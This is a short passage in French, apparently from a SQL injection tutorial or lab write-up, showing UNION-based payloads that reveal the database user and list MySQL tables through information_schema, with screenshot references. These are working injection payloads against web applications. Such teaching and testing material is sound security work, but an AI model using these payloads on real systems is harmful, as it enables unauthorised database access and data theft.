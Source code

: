 L'utilisateur que se sert l'application pour exécuter les requêtes SQL :  

`1 UNION SELECT null, user() #`

Retourne ceci :  

![20-injection-select-user](../images/2020/07/20-injection-select-user.png)

### 4. Faire la liste des tables  

Pour faire la liste des tables, il suffit de faire une requête dans le schéma d'information (ceci est pour MySQL) :  

`1 UNION Select null, table_name from information_schema.tables #`  

![20-injection-select-schema-tables](../images/2020/07/20-injection-select-schema-tables.png)